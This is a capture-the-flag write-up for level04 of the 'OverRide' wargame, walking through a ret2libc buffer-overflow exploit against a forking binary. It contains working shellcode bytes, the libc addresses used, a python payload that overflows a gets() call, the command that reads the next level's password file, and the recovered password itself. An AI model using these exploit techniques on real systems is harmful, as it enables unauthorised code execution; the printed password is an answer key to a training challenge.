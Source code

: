 # Level 04

Once logged in, you will see a binary.

```
$ ssh localhost -p 4444 -l level04
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level04@localhost's password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
level04@OverRide:~$ ls
level04
```

Once the program executes, it suddenly asks for a [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php), so let's just provide one.

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
level04@OverRide:~$
```

Okay, it seems like this didn't do anything. But, there is a hint given: `child is exiting...`.

In the decompiled source, we can see that the program `fork`s and the parent process watches the child process to see whether it calls `exec` ever. The child process takes input from the function `gets`, and once the child process finishes, the parent process exits as well. (If you haven't already, go take a look at the `source` file, which is relatively well documented.)

Given the fact that it seems we can't use our usual shellcode that uses `exec`, we'll use `system` instead. `share` and `exec` are [similar but different](https://stackoverflow.com/a/27461937). `system` technically uses `exec` as well, but only after performing a `fork`. Because the program forks before running `exec`, the original parent process in this program will not kill it. (Instead of `system`, we could theoretically create a shellcode that does `fork` and then `exec`, but `system` will do just fine here.)

Let's find the address of `system`, which we'll use instead of a shellcode.

```
gdb-peda$ info functions system
[....]
0xf7e6aed0  system
[...]
```

So `0xf7e6aed0` is the address for `system`.

Now we need to figure out how to get the string `"/bin/sh"` from somewhere. Unfortunately, it seems as if we can't use the buffer itself to store the string as it's overwritten during the call to `system`. Instead, let's look and see if we can [find the string](https://stackoverflow.com/a/46226054) in the `libc`.

```
gdb-peda$ info proc map
process 2394
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fda000     0x2000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
gdb-peda$ find "/bin/sh" 0xf7e2c000 0xf7fd0000
Searching for '/bin/sh' in range: 0xf7e2c000 - 0xf7fd0000
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```

We'll use `0xf7f897ec` as our argument to `system` to start the shell.

Last, we'll find the offset we need to execute a [buffer overflow](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) on the `gets` call.

```
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41386541 ('Ae8A')
ECX: 0xf7fd08c4 --> 0x0
EDX: 0xffffd680 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"...)
ESI: 0x0
EDI: 0x66413965 ('e9Af')
EBP: 0x31664130 ('0Af1')
ESP: 0xffffd720 ("f3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
EIP: 0x41326641 ('Af2A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41326641
[------------------------------------stack-------------------------------------]
0000| 0xffffd720 ("f3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0004| 0xffffd724 ("4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0008| 0xffffd728 ("Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0012| 0xffffd72c ("f7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0016| 0xffffd730 ("8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0020| 0xffffd734 ("Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0024| 0xffffd738 ("g1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
0028| 0xffffd73c ("2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41326641 in ?? ()
```

So the offset for overwriting `EIP` is `156`.

Our final exploit:

```
level04@OverRide:~$ python -c 'import struct; print "B"*(156) + struct.pack("I", 0xf7e6aed0) + "BBBB" + struct.pack("I", 0xf7f897ec)' > /tmp/payload
level04@OverRide:~$ cat /tmp/payload - | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

## Helpful hints

### `strace`

Forking can be rather difficult to keep track of, and it can be useful to see which processes are running which commands. To do this, use `strace -f`. Note that running this exploit with `strace` will not work as `strace` is being run by `level04` as only calling `./level04` directly will run it as `level05`.

```
level04@OverRide:~$ python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"BBBB"+"\xec\x97\xf8\xf7"' > /tmp/payload
gdb-peda$ cat /tmp/payload - | strace -f ./level04 2> /tmp/err.txt
[ Process PID=1989 runs in 32 bit mode. ]
Give me some shellcode, k
[ Process PID=1991 runs in 64 bit mode. ]
whoami
level04
[ Process PID=1990 runs in 32 bit mode. ]
child is exiting...
gdb-peda$ cat /tmp/err.txt
execve("./level04", ["./level04"], [/* 20 vars */]) = 0
[...]
```

### Using GDB

For this level, using GDB is complicated because of the use of `fork`ing. In GDB, do [`set follow-fork-mode child`](https://ftp.gnu.org/old-gnu/Manuals/gdb/html_node/gdb_25.html) to follow the child process instead of the parent.

